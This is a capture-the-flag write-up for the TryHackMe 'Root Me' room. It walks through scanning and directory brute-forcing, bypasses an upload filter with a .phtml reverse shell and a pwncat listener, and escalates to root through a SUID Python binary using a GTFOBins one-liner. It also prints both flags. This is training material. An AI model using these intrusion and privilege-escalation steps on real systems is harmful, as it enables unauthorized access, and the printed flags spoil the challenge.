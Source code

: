 # Root Me
`url = https://tryhackme.com/room/rrootme`
`date = 01/19/2023`

## Enumeration
---
1. Network Enumeration
```bash
rustscan -a $IP --ulimit 6000 --scripts None
```
* Ports `22` & `80` are open which means that there is a website hosted & SSH/HTTP are the services. Hence, 2 ports are open.

2. Directory Bruteforcing
```bash
dirsearch -u http://$IP/
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
/uploads
/panel
/js
/index.php/login
```
* The `/uploads` page shows us the directory listing for this website.
* The `/panel` page allows you to upload files; mostly this page has an artbitrary file upload vuln.
* The `/js` page is just some 'typewriter' java script code. I dont think there is much use to it right now.
* `/index.php/login` page shows us a prompt that gives us the user name  - `root@rootme:~#`.
---

## Exploitation

* On uploading the file on `/panel` I see that ".php" files are not allowed. Which is why I first renmaes the file to `reshell.txt`, which succeeded but could not be executed. So I re-renamed the file to `revshell.phtml` which did the trick.

`pwncat-cs -lp 9999 # $LPORT`

* Shell received.
---

## Post Exploitation

1. Find the `user.txt` flag by literally searching for it in the root directory.
    ```bash
    find / -name "user.txt" -type f 2>/dev/null
    ```
which will give you the user flag - THM{y0u_g0t_a_sh3ll}

2. In order for us to switch user to root, we do some enumeration. We can check `cat /etc/crontab`. There are no crontabs. Another thing we can do is find SUID binaries in this machine --
Use command - `find / -perm -u=s -type f 2>/dev/null`
which returns -
```bash
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python
```

3. For performing privesc, get the command from gtfobins -
`/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

which should give you root. Now you can just -
```bash
cd /root
cat root.txt
```
this will give you the root flag - THM{pr1v1l3g3_3sc4l4t10n}

fin.